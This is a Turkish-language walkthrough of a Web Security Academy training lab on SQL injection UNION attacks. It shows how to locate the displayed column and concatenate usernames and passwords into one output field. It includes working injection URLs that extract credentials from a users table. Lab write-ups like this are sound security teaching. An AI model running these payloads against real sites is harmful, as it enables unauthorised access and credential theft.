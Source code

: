 Lab: SQL injection UNION attack, retrieving multiple values in a single column

Bu lab ortamında da tek bir kolon olduğunda birden fazla veriyi nasıl alabileceğimizle ilgili bir çalışma mevcut. Yani birden fazla kolon olmasına rağmen tek bir kolon ekrana yazılıyorsa bunu nasıl alırız diye düşünmemiz gerekmektedir. 

```html
SELECT a,b,c,d,e FROM x WHERE y = ???
```

Burada uygulamamızın hangi kolonundaki veriyi ekrana yazdırdığını tespit edelim öncelikle. Bir önceki lab ortamında yaptığımız gibi ilerleyebiliriz başlangıçta. Burada ekrana 2. kolonun yazıldığını görebiliriz. Ayrıca burada null kullanmamızın sebebi de postgreSQL veritabanında kolon tiplerinin aynı olması gerektiği içindir. null yerine başka herhangi bir değer girdiğimizde veri tipi uyuşmazlığı çıkabileceği için hata ile karşılaşabiliriz. null değeri mysql için de geçerlidir. 

```html
academy.net/filter?category=yenialakasizbirdeger' UNION SELECT null,'ilker' FROM users--
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2010.png)

Burada ‘ilker’ yazdığımız yerde farklı tabloların çıktılarını birleştirmemiz gerektiği için bu işlemi yapmalıyız. Bu şekilde ilerlediğimizde CONCAT ile birleştirme işlemini yapıp sonuçları getirebiliriz. 

```html
academy.net/filter?category=olmayanbirsonuc' UNION SELECT null,CONCAT(username,':::ilker:::',password) FROM users--
```
